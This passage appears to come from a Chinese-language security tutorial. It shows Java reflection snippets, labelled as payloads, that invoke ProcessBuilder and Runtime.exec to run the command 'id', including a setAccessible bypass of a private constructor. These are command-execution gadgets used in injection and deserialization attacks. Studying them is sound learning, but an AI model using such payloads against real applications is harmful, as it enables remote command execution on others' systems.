 ```java
        this.command = command;
        return this;
    }

    public List&lt;String&gt; command() {
        return command;
    }
    
    // 略
}
```

对于第一个构造函数 `public ProcessBuilder(List&lt;String&gt; command) {}`

payload （强制类型转换）

```java
Class clazz = Class.forName(&#34;java.lang.ProcessBuilder&#34;);
((ProcessBuilder)clazz.getConstructor(List.class).newInstance(Arrays.asList(&#34;id&#34;))).start();
```

payload （完全使用反射）

```java
Class clazz = Class.forName(&#34;java.lang.ProcessBuilder&#34;);
clazz.getMethod(&#34;start&#34;).invoke(clazz.getConstructor(List.class).newInstance(Arrays.asList(&#34;id&#34;)));
```

对于第二个构造函数 `public ProcessBuilder(String... command) {}` 等价于 `public ProcessBuilder(String[] command) {}`

payload （强制类型转换）

```java
Class clazz = Class.forName(&#34;java.lang.ProcessBuilder&#34;);
((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new String[][]{{&#34;id&#34;}})).start();
```

payload （完全使用反射）

```java
Class clazz = Class.forName(&#34;java.lang.ProcessBuilder&#34;);
clazz.getMethod(&#34;start&#34;).invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{&#34;id&#34;}}));
```

### 二：构造函数私有

使用 `getDeclaredMethod` 和 `getDeclaredConstructor` 方法，或者先获取单例

以 `Runtime` 为例

payload （使用 `getDeclared`）

```java
Class clazz = Class.forName(&#34;java.lang.Runtime&#34;);
Constructor constructor = clazz.getDeclaredConstructor();
constructor.setAccessible(true); // 修改作用域
Process process = (Process) clazz.getMethod(&#34;exec&#34;, String.class).invoke(constructor.newInstance(), &#34;id&#34;);
```
